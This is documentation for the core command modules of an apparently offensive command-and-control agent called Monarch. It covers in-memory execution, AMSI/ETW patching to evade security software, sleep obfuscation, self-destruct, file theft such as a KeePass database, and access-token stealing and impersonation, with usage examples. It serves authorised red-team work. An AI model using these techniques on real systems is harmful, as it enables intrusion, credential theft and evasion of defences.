# Core Modules <!-- omit from toc -->

## Contents <!-- omit from toc -->

- [Overview](#overview)
- [CORE](#core)
  - [exit](#exit)
  - [self-destruct](#self-destruct)
  - [sleep](#sleep)
  - [jitter](#jitter)
  - [sleepmask](#sleepmask)
  - [link](#link)
  - [unlink](#unlink)
  - [jobs](#jobs)
  - [cancel](#cancel)
- [SHELL](#shell)
  - [shell](#shell-1)
- [BOF](#bof)
  - [bof](#bof-1)
- [DLL](#dll)
  - [dll](#dll-1)
- [DOTNET](#dotnet)
  - [dotnet](#dotnet-1)
- [FILESYSTEM](#filesystem)
  - [pwd](#pwd)
  - [cd](#cd)
  - [ls](#ls)
  - [rm](#rm)
  - [rmdir](#rmdir)
  - [move](#move)
  - [copy](#copy)
- [FILETRANSFER](#filetransfer)
  - [download](#download)
  - [upload](#upload)
- [SCREENSHOT](#screenshot)
  - [screenshot](#screenshot-1)
- [PROCESS](#process)
  - [ps](#ps)
- [TOKEN](#token)
  - [make-token](#make-token)
  - [steal-token](#steal-token)
  - [use-token](#use-token)
  - [remove-token](#remove-token)
  - [rev2self](#rev2self)
  - [token-vault](#token-vault)
  - [token-info](#token-info)
  - [enable-privilege](#enable-privilege)
  - [disable-privilege](#disable-privilege)

## Overview

Modules are bundles of agent commands that can be embedded into the executable when configuring and building the `Monarch` agent. The core modules listed on this page are directly implemnted in Nim and thus change the agent size. Currently, the following commands are available when all modules are enabled.

```
 * exit                     Exit the agent.
 * self-destruct            Exit the agent and delete the executable from disk.
 * sleep                    Update sleep delay settings.
 * jitter                   Update jitter settings.
 * sleepmask                Retrieve or update sleepmask settings.
 * link                     Create a link to a SMB agent.
 * unlink                   Remove a link to a SMB agent.
 * shell                    Execute a shell command and retrieve the output.
 * bof                      Execute an object file in memory and retrieve the output.
 * dotnet                   Execute a .NET assembly in memory and retrieve the output.
 * pwd                      Retrieve current working directory.
 * cd                       Change current working directory.
 * ls                       List files and directories.
 * rm                       Remove a file.
 * rmdir                    Remove a directory.
 * move                     Move a file or directory.
 * copy                     Copy a file or directory.
 * download                 Download a file.
 * upload                   Upload a file.
 * screenshot               Take a screenshot of the target desktop.
 * ps                       Display running processes.
 * make-token               Create an access token from username and password.
 * steal-token              Steal the primary access token of a remote process.
 * use-token                Use and impersonate access token from the vault.
 * remove-token             Remove access token from the vault.
 * rev2self                 Revert to original access token.
 * token-vault              List access tokens stored in the vault.
 * token-info               Retrieve information about the current access token.
 * enable-privilege         Enable a token privilege.
 * disable-privilege        Disable a token privilege.
```

## CORE

The core module exposes commands that are built into the agent by default and are always available regardless of the selected modules.

### exit
Terminate the agent process or thread. This command is also invoked when the agent is exited from the UI.

```
Usage  : exit [type]
Example: exit process

Optional arguments:
  type                      STRING     Available options: PROCESS/THREAD. Default: PROCESS.
```

### self-destruct
Terminate the agent process and delete the agent executable from disk.

```
Usage  : self-destruct
Example: self-destruct
```

### sleep
Update the agent sleep delay.

```
Usage  : sleep <delay>
Example: sleep 5

Required arguments:
  delay                     INT        Delay in seconds.
```

### jitter
Update the jitter percentage applied to the sleep delay.

```
Usage  : jitter <jitter>
Example: jitter 15

Required arguments:
  jitter                    INT        Jitter in % (0-100).
```

### sleepmask
Retrieve or update sleep obfuscation settings. Executing without arguments retrieves the current settings.

```
Usage  : sleepmask [--technique <technique>] [--spoof]
Example: sleepmask --technique ekko --spoof

Optional arguments:
  --technique technique     STRING     Sleep obfuscation technique.
                                         - NONE
                                         - EKKO
                                         - ZILEAN
                                         - FOLIAGE
  --spoof                   BOOL       Enable call stack spoofing.
```



### link
Create a link to an SMB agent by connecting to its named pipe.

```
Usage  : link <host> <pipe>
Example: link DC01 msagent_1234

Required arguments:
  host                      STRING     Host on which the SMB agent is running.
  pipe                      STRING     Name of the named pipe (SMB listener).
```

### unlink
Remove a link to an SMB agent.

```
Usage  : unlink <agent>
Example: unlink C804A284

Required arguments:
  agent                     STRING     ID of the agent to unlink.
```

### jobs
List running jobs.

```
Usage  : jobs
Example: jobs
```



### cancel
Cancel a running job.

```
Usage  : cancel <job>
Example: cancel DEADBEEF

Required arguments:
  job                       STRING     ID of the job to cancel.
```

## SHELL

The `shell` module executes shell commands using Nim's `execCmdEx` function. Double-quoted strings are parsed as a single argument.

### shell
Execute a shell command and retrieve the output.

```
Usage  : shell <command> [arguments]
Example: shell whoami /all

Required arguments:
  command                   STRING     Command to be executed.

Optional arguments:
  arguments                 STRING     Arguments to be passed to the command.
```



## BOF

The `bof` module provides a BOF/COFF loader for executing beacon object files (`*.o`) in memory. The object file is read from disk on the operator client and sent to the agent as part of the task data. 

### bof
Execute an object file in memory and retrieve the output.

```
Usage  : bof <object-file> [arguments]
Example: bof /path/to/dir.x64.o C:\Users

Required arguments:
  object-file               FILE       Path to the object file to execute.

Optional arguments:
  arguments                 STRING     Arguments packed as a HEX string according to beacon_generate.py.
```



In order to create the `arguments` HEX-string, it is recommended to use the [beacon_generate.py](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py) script provided by trustedsec. More commonly, the `bof` command is needed when using the Python API to create commands for third-party post-exploitation capabilities, such as [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).

## DLL 

The `dll` module provides an in memory DLL loader that reads external post-exploitation DLLs from disk on the client and executes them in a new thread. The DLLs run in the background without blocking the agent.

>[!Important]
> This module is used and required for executing **Async BOFs**!

### dll
Execute a DLL asynchronously in memory.

```
Usage: dll <dll> <function> [arguments]
Example: dll /path/to/async-bof.dll Run <packed-args>

Required arguments:
  dll                       FILE       Path to the DLL to execute.
  function                  STRING     Name of the exported function to execute.

Optional arguments:
  arguments                 STRING     Arguments to pass to the exported function, packed as a HEX string.
```

The DLL loader uses an exported function that expects the following signature:

```c
BOOL Run(PBYTE args, DWORD argsLen, HANDLE hWrite, HANDLE hWakeup, HANDLE hStop)
```

The three handles an external DLL receives from the DLL loader are used to communicate with the agent.

| Handle | Usage | 
| --- | --- | 
| **hWrite** | Pipe for output redirection. The `BeaconOutput` and `BeaconPrintf` write to this pipe whenever the APIs are invoked. On each check-in, the agent drains this pipe and prints the data in it to the agent console.
| **hWakeup** | An event used to wake up a sleeping agent. Set in the `BeaconWakeup` API, it interrupts the agents sleep delay and forces it to check-in. |
| **hStop** | An event used to stop the BOF execution using the `cancel` command from the agent console. |  

Any arguments that are passed to the DLL have to be formatted as a HEX-string when executing the command directly. The `dll` command should primarily be used to create alias commands using the [Python API](./8-SCRIPTING.md). For example, the [async-bof](../data/modules/execution/async-bof.py) command, which loads the `async-bof.dll` with the `dll` command, requires the raw object file bytes as well as the BOF arguments to be packed together and passed to the DLL.

## DOTNET

The `dotnet` module executes .NET assemblies in memory using the CLR. As with object files, the assembly is read from the operator client and sent as part of the task data. To prevent security software from blocking execution, this module patches AMSI and ETW using hardware breakpoints.

### dotnet
Execute a .NET assembly in memory and retrieve the output.

```
Usage  : dotnet <assembly> [arguments]
Example: dotnet /path/to/SharpHound.exe -c all -d domain.local

Required arguments:
  assembly                  FILE       Path to the .NET assembly to execute.

Optional arguments:
  arguments                 STRING     Arguments to be passed to the assembly. Arguments are handled as STRING.
```



## FILESYSTEM

The `filesystem` module provides basic filesystem operations implemented via the Windows API. Quoted arguments are supported.

### pwd
Retrieve the current working directory.

```
Usage  : pwd
Example: pwd
```

### cd
Change the current working directory.

```
Usage  : cd <directory>
Example: cd C:\Windows\Tasks

Required arguments:
  directory                 STRING     Relative or absolute path of the directory to change to.
```

### ls
List files and directories.

```
Usage  : ls [directory]
Example: ls C:\Users\Administrator\Desktop

Optional arguments:
  directory                 STRING     Relative or absolute path. Default: current working directory.
```

### rm
Remove a file.

```
Usage  : rm <file>
Example: rm C:\Windows\Tasks\payload.exe

Required arguments:
  file                      STRING     Relative or absolute path to the file to delete.
```

### rmdir
Remove a directory.

```
Usage  : rmdir <directory>
Example: rmdir C:\Payloads

Required arguments:
  directory                 STRING     Relative or absolute path to the directory to delete.
```

### move
Move a file or directory.

```
Usage  : move <source> <destination>
Example: move source.exe C:\Windows\Tasks\destination.exe

Required arguments:
  source                    STRING     Source file path.
  destination               STRING     Destination file path.
```

### copy
Copy a file or directory.

```
Usage  : copy <source> <destination>
Example: copy source.exe C:\Windows\Tasks\destination.exe

Required arguments:
  source                    STRING     Source file path.
  destination               STRING     Destination file path.
```

## FILETRANSFER

The `filetransfer` module handles file transfers between the operator client and the target system.

### download
Download a file from the target system to the team server.

```
Usage  : download <file>
Example: download C:\Users\john\Documents\Database.kdbx

Required arguments:
  file                      STRING     Path to the file to download from the target machine.
```

### upload
Upload a file from the operator client to the target system.

```
Usage  : upload <file> [destination]
Example: upload /path/to/payload.exe

Required arguments:
  file                      FILE       Path to the file to upload to the target machine.

Optional arguments:
  destination               STRING     Destination path on the target. Default: current working directory.
```

## SCREENSHOT

The `screenshot` module captures a screenshot of all monitors on the system the agent is running on.

### screenshot
Take a screenshot of the target desktop.

```
Usage  : screenshot
Example: screenshot
```

## PROCESS

The `process` module exposes commands for interacting with Windows processes.

### ps
Display running processes.

```
Usage  : ps
Example: ps
```



## TOKEN

The `token` module provides commands for manipulating Windows access tokens and privileges. It also features the **Token Vault**, an in-memory list of handles to stored access tokens. Tokens that are stored in the vault can be impersonated using the `use-token` command without having to create or steal them additional times.  

### make-token
Create an access token from a username and password and impersonate it immediately. This command can be executed from a medium-integrity (non-elevated) process. The current impersonation is displayed in the **Username** column of the **Sessions** view.

```
Usage  : make-token <domain\username> <password> [--type logonType] [--store]
Example: make-token LAB\john Password123!

Required arguments:
  domain\username           STRING     Account domain and username. For impersonating local users, use .\username.
  password                  STRING     Account password.

Optional arguments:
  --type logonType          INT        Logon type (https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types).
                                         - 2: LOGON_INTERACTIVE
                                         - 3: LOGON_NETWORK
                                         - 4: LOGON_BATCH
                                         - 5: LOGON_SERVICE
                                         - 8: LOGON_NETWORK_CLEARTEXT
                                         - 9: LOGON_NEW_CREDENTIALS (default)
  --store                   BOOL       Store access token in vault.
```

By default, logon type 9 (NewCredentials) is used, which is also the default in frameworks like Cobalt Strike. Credentials are not validated with this logon type, making it possible to create a logon session without knowing the password and inject a valid Kerberos ticket into it to impersonate the target user. The following logon types are supported:

| Logon Type | # | Examples |
|------------|---|----------|
| Interactive | 2 | Console logon, RUNAS, IIS Basic Auth (pre-IIS 6.0) |
| Network | 3 | NET USE, RPC calls, remote registry, IIS integrated Windows auth, SQL Windows auth |
| Batch | 4 | Scheduled tasks |
| Service | 5 | Windows services |
| NetworkCleartext | 8 | IIS Basic Auth (IIS 6.0+), PowerShell with CredSSP |
| NewCredentials | 9 | RUNAS /NETWORK |
| RemoteInteractive | 10 | Remote Desktop |



### steal-token
Steal the primary access token of a remote process. Requires the agent to be running in a high-integrity (elevated) process.

```
Usage  : steal-token <pid> [--store]
Example: steal-token 1234

Required arguments:
  pid                       INT        Process ID of the target process.

Optional arguments:
  --store                   BOOL       Store access token in vault.
```

In the screenshot below, the target PID belongs to `winlogon.exe`, which runs as `NT AUTHORITY\SYSTEM`.



### use-token
Use and impersonate an access token from the vault.

```
Usage  : use-token <token>
Example: use-token 1

Required arguments:
  token                     INT        ID of the token to impersonate.
```

### remove-token
Remove an access token from the vault.

```
Usage  : remove-token [token] [--all]
Example: remove-token 1

Optional arguments:
  token                     INT        ID of the token to remove.
  --all                     BOOL       Remove all tokens from the vault.
```

### rev2self
Stop impersonating and revert to the original access token.

```
Usage  : rev2self
Example: rev2self
```

### token-vault
List access tokens stored in the vault. Token IDs start at 1. 

```
Usage  : token-vault
Example: token-vault
```



### token-info
Retrieve information about the current access token, including token type, elevation, user, group memberships, and privileges.

```
Usage  : token-info
Example: token-info
```



### enable-privilege
Enable a token privilege.

```
Usage  : enable-privilege <privilege>
Example: enable-privilege SeImpersonatePrivilege

Required arguments:
  privilege                 STRING     Privilege to enable.
```



### disable-privilege
Disable a token privilege.

```
Usage  : disable-privilege <privilege>
Example: disable-privilege SeImpersonatePrivilege

Required arguments:
  privilege                 STRING     Privilege to disable.
```

